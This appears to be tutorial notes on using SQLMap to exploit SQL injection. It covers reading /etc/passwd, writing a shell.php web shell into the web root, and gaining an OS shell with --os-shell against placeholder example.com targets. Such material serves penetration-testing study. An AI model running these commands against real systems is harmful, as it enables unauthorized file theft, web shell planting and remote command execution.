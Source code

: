 SQLMap has the ability to utilize an SQL Injection to read and write files from the local system outside the DBMS. SQLMap can also attempt to give us direct command execution on the remote host if we had the proper privileges

---

## File Read/Write

- `LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`

## Checking for DBA Privileges

```shell-session

sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba
```


```shell-session
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved
```

```shell-session

sqlmap -u "http://www.example.com/?id=1" --is-dba
```

## Reading Local Files

```shell-session

sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"
```

```shell-session

cat ~/.sqlmap/output/www.example.com/files/_etc_passwd
```

## Writing Local Files

```shell-session

sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"
```

## OS Command Execution

we can test SQLMap's ability to give us an easy OS shell without manually writing a remote shell. SQLMap utilizes various techniques to get a remote shell through SQL injection vulnerabilities, like writing a remote shell, as we just did, writing SQL functions that execute commands and retrieve output or even using some SQL queries that directly execute OS command, like `xp_cmdshell` in Microsoft SQL Server. To get an OS shell with SQLMap, we can use the `--os-shell` option, as follows:

```shell-session

sqlmap -u "http://www.example.com/?id=1" --os-shell
```

Better chance of direct output:
```shell-session

sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E
```

